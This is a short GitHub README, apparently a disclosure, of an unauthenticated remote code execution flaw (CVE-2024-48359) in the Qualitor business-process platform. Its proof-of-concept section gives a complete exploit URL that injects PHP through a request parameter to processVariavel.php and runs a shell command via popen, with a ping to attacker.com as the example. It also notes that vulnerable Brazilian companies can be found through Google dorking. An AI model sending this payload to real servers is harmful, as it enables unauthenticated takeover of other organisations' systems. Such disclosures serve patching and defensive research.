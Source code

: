 # CVE-2024-48359 - Unauthenticated RCE PoC
CVE-2024-48359 | Qualitor <= v8.24 RCE

## Description
Qualitor is a platform for business process management, and this system is present in various companies in Brazil that can be identified simply by using Google dorking.

Our team identified a vulnerability in the application susceptible to Remote Code Execution (RCE), which allows remote execution of system commands.

This is an bypass for the CVE-2023-47253 fix.

## Proof of Concept (POC)
Just send a PHP code in the page processVariavel.php, ex: /html/ad/adpesquisasql/request/processVariavel.php?gridValoresPopHidden=nl2br(stream_get_contents(popen('ping attacker.com', 'r')));

![Imagem do WhatsApp de 2024-09-19 à(s) 01 14 06_bbb40f0b](https://github.com/user-attachments/assets/d6ec0557-a795-42c8-a61a-0ea752810c89)


### Researches
https://www.linkedin.com/in/xvinicius/

https://www.linkedin.com/in/hairrison-wenning-4631a4124/

- OpenXP Research Team
